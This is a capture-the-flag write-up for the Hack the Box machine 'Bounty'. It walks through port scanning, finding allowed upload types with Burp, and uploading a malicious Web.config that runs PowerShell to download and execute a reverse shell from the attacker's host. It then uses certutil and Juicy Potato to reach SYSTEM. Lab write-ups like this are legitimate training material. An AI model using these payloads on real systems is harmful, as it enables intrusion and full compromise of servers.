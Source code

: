 ```yaml
---
title: Hack the Box - Bounty
date: 2022-08-20 12:44:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Bounty](/assets/HackTheBox/Bounty/Bounty.png)

# Bounty Overview

## Machine Details

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.93|Bounty|Windows|

## Path to Exploitation

Compromising Bounty requires exploit a web-server that allows us to upload various file types. One of these files includes the .config extension, we can leverage this to upload a malicious Web.config file that contains a reverse shell command. After getting on the machine, we run some basic user and system enumeration commands and see that our user has the seImpersonatePrivilege enabled. We then use the Juicy Potato exploit elevate our privileges to SYSTEM.

# Bounty Enumeration

## Full Port Scan

```bash
nmap 10.10.10.93 -p- -oA Bounty/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|80|http|

## Service Scan

```bash
nmap 10.10.10.93 -p 80 -sC -sV -oA Bounty/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|80|http|IIS httpd 7.5|

# Website

## Manually Inspecting the site

Landing page of the site:

![Site Page](/assets/HackTheBox/Bounty/site.png "Site Landing Page")

We can see the server is running IIS by inspecting the source of the page

![IIS 7](/assets/HackTheBox/Bounty/iis7.png "ISS 7")

We see in Burp the full version is 7.5

![IIS 7.5](/assets/HackTheBox/Bounty/iis7-5.png "ISS 7.5")

We see a potential vulnerability for this version of IIS [here](https://www.exploit-db.com/exploits/19033). 

## Directory Bruteforce

```shell
gobuster dir -w /opt/SecLists/Discovery/Web-Content/common.txt -u http://10.10.10.93/ -o gobuster.out -x php,txt,aspx,asp,html
```

```shell
$ dirb http://10.10.10.93/
```

```shell
$ dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o dirsearch.out -u http://10.10.10.93/
```

**Key Findings:**

```
/aspnet_client
/aspnet_client/system_web/
/transfer.aspx
/Trace.axd
/UploadedFiles
/WebResource.axd?d=LER8t9aS
```

We get a access denied when trying to browse to the /uploadedfiles/ endpoint

But find a file upload at /transfer.aspx

![File Upload](/assets/HackTheBox/Bounty/file-upload.png "File Upload")

## Shell on Host

### Targeting the File Upload 

We can identify which file types are allowed by using Burp Intruder. Attempt to upload a text file and send the request to Intruder.

Set the variable to the file extension

![Intruder Setup](/assets/HackTheBox/Bounty/intruder-setup.png "Setting up Intruder")

We will use a list of common file extensions as our target list. We first need to remove the dot to prevent any issues with Burp processing them

![Target List](/assets/HackTheBox/Bounty/target-list.png "Target List")

Load the file into Burp, and start the attack

![Intruder Attack](/assets/HackTheBox/Bounty/intruder-attack.png "Intruder Attack")

We soon see that the response length of 1350 indicates a successful upload

![Valid Response](/assets/HackTheBox/Bounty/valid-1350.png "Valid Response")

We can filter by this value to see all the acceptable file extensions.

![Valid File Types](/assets/HackTheBox/Bounty/valid-file-types.png "Valid File Types")

We see we are able to upload .config files, following [this](https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) article we see that we can exploit this to get command execution.

We can use a similar Web.config file to launch our reverse shell. We'll first want to transfer the Invoke-PowerShellTcp.ps1 script to our working directory and add the following line to the bottom of the file:
```shell
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.4 -Port 443
```

We then create the following Web.config file:
```shell
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.4/Invoke-PowerShellTcp.ps1')")
%>
```

We add our command to the file to call back to our host, download, and execute the reverse shell payload.

Upload the file to the host, setup an HTTP server and a nc listener. Then navigate to /uploadedfiles/Web.config

We see that we have a shell on the box running as the merlin user

![Foothold](/assets/HackTheBox/Bounty/foothold.png "Foothold")

# Local Enumeration

## System Information

![System Information](/assets/HackTheBox/Bounty/system-info.png "System Information")

## User Enumeration

```shell
C:\> whoami /groups
```

![User Groups](/assets/HackTheBox/Bounty/user-groups.png "User Groups")

```shell
C:\> whoami /priv
```

![User Privileges](/assets/HackTheBox/Bounty/user-privs.png "User Privileges")

Based on these privileges it appears that this host may be vulnerable to the Juicy Potato exploit

# Privilege Escalation

Upload the Juicy Potato exploit

```shell
PS:\> certutil -urlcache -f http://10.10.14.4/JuicyPotato.exe C:\tmp\juicy.exe
```

We'll re-use our powershell script and run the same command we used in the Web.config file

Setup a nc listener and execute the command

```shell
PS:\> .\juicy.exe -l 1337 -p c:\windows\system32\cmd.exe -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.4/Invoke-PowerShellTcp.ps1')" -t *
```

Checking back on our listener we see have a shell running as SYSTEM

![Shell as SYSTEM](/assets/HackTheBox/Bounty/priv-esc.png "Shell as SYSTEM")
